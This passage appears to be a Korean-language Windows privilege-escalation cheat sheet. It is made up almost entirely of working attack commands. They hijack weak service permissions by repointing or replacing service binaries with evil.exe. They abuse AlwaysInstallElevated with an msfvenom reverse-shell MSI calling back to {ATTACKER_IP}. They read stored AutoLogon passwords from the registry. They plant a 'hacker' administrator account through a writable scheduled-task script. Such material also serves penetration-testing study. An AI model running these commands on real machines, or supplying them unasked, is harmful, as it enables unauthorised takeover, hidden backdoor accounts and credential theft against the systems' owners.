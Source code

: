 #### Weak Service Permissions

```cmd
# 서비스 권한 확인
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv Everyone * /accepteula

# 서비스 바이너리 경로 변경
sc config "service_name" binpath= "C:\temp\evil.exe"
sc stop "service_name"
sc start "service_name"
```

#### Weak Service Binary Permissions

```cmd
# 바이너리 권한 확인
icacls "C:\Program Files\Service\service.exe"

# 바이너리 교체
takeown /f "C:\Program Files\Service\service.exe"
copy evil.exe "C:\Program Files\Service\service.exe"
sc stop service_name
sc start service_name
```

### 🗂️ 레지스트리 취약점

#### AlwaysInstallElevated

```cmd
# 확인
reg query HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer

# 둘 다 AlwaysInstallElevated=1이면 악용 가능
msfvenom -p windows/x64/shell_reverse_tcp LHOST={ATTACKER_IP} LPORT=4444 -f msi -o evil.msi
msiexec /quiet /qn /i evil.msi
```

#### AutoLogon 크레덴셜

```cmd
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AutoAdminLogon

# 발견된 크레덴셜로 로그인 시도
runas /user:administrator cmd
```

### 📅 스케줄된 태스크 취약점

```cmd
# 쓰기 가능한 태스크 스크립트 찾기
schtasks /query /fo LIST /v | findstr /i "task to run"
icacls "C:\path\to\scheduled\script.bat"

# 스크립트 수정
echo "net user hacker password123 /add" >> "C:\path\to\scheduled\script.bat"
echo "net localgroup administrators hacker /add" >> "C:\path\to\scheduled\script.bat"

# 또는 리버스쉘
```